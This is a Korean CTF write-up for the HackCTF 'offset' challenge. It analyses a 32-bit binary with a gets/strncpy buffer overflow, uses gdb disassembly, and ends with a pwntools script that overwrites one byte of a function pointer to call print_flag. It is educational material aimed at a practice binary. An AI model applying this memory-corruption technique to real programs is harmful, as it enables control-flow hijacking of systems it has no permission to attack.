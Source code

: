 **HackCTF - offset**

| layout | title            | auther   | categories | tags           |
| ------ | ---------------- | -------- | ---------- | -------------- |
| post   | HackCTF - offset | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file` 명령어를 통해 해당 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file offset 
offset: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c3936da4c051f1ca58585ee8b243bc9c4a37e437, not stripped

```

`32 bit ELF` 프로그램이며 `not-stripped` 이다.

`checksec`명령어를 통해 해당 `binary`에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec offset 
[*] '/home/mac/Desktop/hackCTF/offset'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`Full RELRO` & `NX` & `PIE` 보호기법이 적용되었다.

`NX`가 적용되어 `heap`, `stack`등과 같은 메모리에 실행 권한이 사라지며 `PIE`기법이 적용되어 메모리 상 모든 영역이 랜덤으로 매핑된다. 

왜 이름이 `offset`인지 느낌이 온다.

일단 `binary`를 실행 시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./offset 
Which function would you like to call?
aaaaaaaaaaaaaaaaaaaaaaaaaa

```

`binary`를 실행시키면 `Which function would you like to call?`이라는 문자열을 출력하고 사용자로부터 입력을 받는다.

분석시 해당 `binary` 내 함수들을 유심히 봐야겠다.

이제 분석을 진행한다.

![image](https://user-images.githubusercontent.com/33051018/75871241-99900000-5e4f-11ea-8dc1-aee51ae3ca20.png)

`IDA`로 열자마자 `Function Window`부터 살펴보았다.

`print_flag`라는 의미심장한 이름의 함수가 있었다. 

`main`함수를 분석한 뒤, 해당 함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871414-deb43200-5e4f-11ea-8964-5a074ae2d3a2.png)

`main`함수이다.

버퍼를 초기화 한 뒤, 아까 봤던 문자열 `Which function would you like to call?`을 출력한다.

이후 `s`변수에 `gets`함수를 통해 값을 입력받는다.

`s`변수는 `ebp-0x27`에 위치하고 있으나 입력을 받을때 길이값을 검증하지 않아 `BOF`취약점이 존재한다.

이후 입력받은 `s`를 참조하여 `select_func`의 인자로 전달한 뒤 프로그램을 종료한다.

`select_func`함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871647-3a7ebb00-5e50-11ea-8cb5-b55cd0263bde.png)

`v3`는 함수형 포인터로써 `two`함수의 주소를 참조하도록 초기화한다.

이후 `select_func`은 전달받은 인자 `src`를 `dest`에 `31bytes`만큼 복사한다.

다음으로 분기를 통해 `dest`값을 `one`과 비교하여 만일 같으면 `v3`변수가 `one()`을 참조하도록 초기화하여 `v3`를 호출하고 다르면 그냥 `v3`를 호출한다.

**결론적으로 `select_func` 함수가 호출하는 함수의 주소는 `v3`에 담긴다.** 

아까 잠시 보고 지나갔던 `print_flag()` 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75872295-3bfcb300-5e51-11ea-9054-422d3b9ba8f3.png)

해당 함수는 `flag.txt`함수를 읽어서 출력해주는 함수이다.

따라서, `v3` 함수형 포인터가 `print_flag` 함수를 참조할 수 있도록 프로그램의 흐름을 변조하면 될 것 같다.

또한, `select_func`에서 `dest`와 `v3`의 사이 거리는 30bytes다.

이후 `strncpy`를 이용해 복사하는 데이터의 크기는 31bytes다. 따라서 우리는 호출하는 함수의 1byte만 덮어씌울수 있다.

```bash
gdb-peda$ pd select_func
Dump of assembler code for function select_func:
   0x0000077f <+0>:	push   ebp
   0x00000780 <+1>:	mov    ebp,esp
   0x00000782 <+3>:	push   ebx
   0x00000783 <+4>:	sub    esp,0x34
   0x00000786 <+7>:	call   0x5b0 <__x86.get_pc_thunk.bx>
   0x0000078b <+12>:	add    ebx,0x182d
   0x00000791 <+18>:	lea    eax,[ebx-0x190b]
   0x00000797 <+24>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000079a <+27>:	sub    esp,0x4
   0x0000079d <+30>:	push   0x1f
   0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
   0x000007a2 <+35>:	lea    eax,[ebp-0x2a]
   0x000007a5 <+38>:	push   eax
   0x000007a6 <+39>:	call   0x550 <strncpy@plt>
   0x000007ab <+44>:	add    esp,0x10
   0x000007ae <+47>:	sub    esp,0x8
   0x000007b1 <+50>:	lea    eax,[ebx-0x1675]
   0x000007b7 <+56>:	push   eax
   0x000007b8 <+57>:	lea    eax,[ebp-0x2a]
   0x000007bb <+60>:	push   eax
   0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
   0x000007c1 <+66>:	add    esp,0x10
   0x000007c4 <+69>:	test   eax,eax
   0x000007c6 <+71>:	jne    0x7d1 <select_func+82>
   0x000007c8 <+73>:	lea    eax,[ebx-0x1864]
   0x000007ce <+79>:	mov    DWORD PTR [ebp-0xc],eax
   0x000007d1 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x000007d4 <+85>:	call   eax
   0x000007d6 <+87>:	nop
   0x000007d7 <+88>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000007da <+91>:	leave  
   0x000007db <+92>:	ret
```

`select_func` +85 부분이 `v3` 함수를 호출하는 부분이다.

해당 부분에 `breakpoint`를 걸고 `eax`값을 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75874952-21790880-5e56-11ea-8524-becd2929109e.png)

`eax`에는 `0x56555600` 값이 들어가있다.

궁극적으로 실행시켜야할 함수 `print_flag`의 주소는 `0x565556d8` 이다.

두 주소를 비교해보면 맨 끝자리 2개 즉, 첫 한 바이트만 차이난다.

따라서, 페이로드의 구성은 30개의 더미와 `print_flag`함수의 첫주소인 `0xd8`을 조합하여 전달한다.

# Explolit

---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)
#p = process('./offset')

payload = 'A'*30
payload += '\xd8'

p.recvuntil('Which function would you like to call?\n')
p.sendline(payload)

p.interactive()
```
     
